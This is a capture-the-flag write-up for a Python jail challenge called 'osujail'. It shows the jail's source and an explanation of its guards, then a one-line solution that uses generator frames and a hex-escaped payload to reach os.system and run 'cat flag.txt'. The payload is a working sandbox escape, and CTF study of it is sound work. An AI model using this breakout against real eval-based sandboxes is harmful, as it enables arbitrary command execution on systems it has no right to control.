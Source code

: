 # osujail [easy]

### Initial Analysis
The challenge involves crafting an input that passes the guards and meets the criteria for rescue in order to execute arbitrary code using `eval`.

```python
backup_len = len
backup_eval = eval
backup_print = print
backup_input = input
backup_all = all
backup_ord = ord

def rescued_osu(input):
    return input.count('o') == 1 and input.count('s') == 1 and input.count('u') == 1

def caught_by_guards(input):
    return '[' in input or ']' in input or '{' in input or '}' in input or not backup_all(0 <= backup_ord(c) <= 255 for c in input)

globals()['__builtins__'].__dict__.clear()

input = backup_input()
if caught_by_guards(input) or not rescued_osu(input):
    backup_print('[You failed to break the jail]')
else:
    backup_print(backup_eval(input,{},{}))
```

    Function Definitions:
        rescued_osu(input): Checks if the input string contains exactly one 'o', one 's', and one 'u'.
        caught_by_guards(input): Checks if the input string contains any of the characters '[', ']', '{', '}', or if any character's ASCII code is outside the range 0 to 255.

    Backup Variables:
        Backs up certain built-in functions like len, eval, print, input, etc.

    Clearing Built-in Functions:
        Clears the __builtins__ dictionary, effectively removing access to most built-in functions.

    Main Execution:
        Prompts the user for input.
        Checks if the input is caught by guards (contains forbidden characters or out-of-range ASCII codes) or if it doesn't meet the conditions for rescue (having exactly one 'o', 's', and 'u').
        If the input passes both checks, it evaluates the input using eval and prints the result. Otherwise, it prints a failure message.

### Solution
```python
(a:="".split(),a.append(b.gi_frame.f_back.f_back.__getattribute__("f_gl\x6fbal\x73").__getitem__("back\x75p_eval")("\x28\x29\x2e\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f\x2e\x5f\x5f\x62\x61\x73\x65\x5f\x5f\x2e\x5f\x5f\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73\x5f\x5f\x28\x29\x5b\x31\x33\x33\x5d\x2e\x5f\x5f\x69\x6e\x69\x74\x5f\x5f\x2e\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f\x5b\x22\x73\x79\x73\x74\x65\x6d\x22\x5d\x28\x22\x63\x61\x74\x20\x66\x6c\x61\x67\x2e\x74\x78\x74\x22\x29") for b in a),*a.__getitem__(0))
```
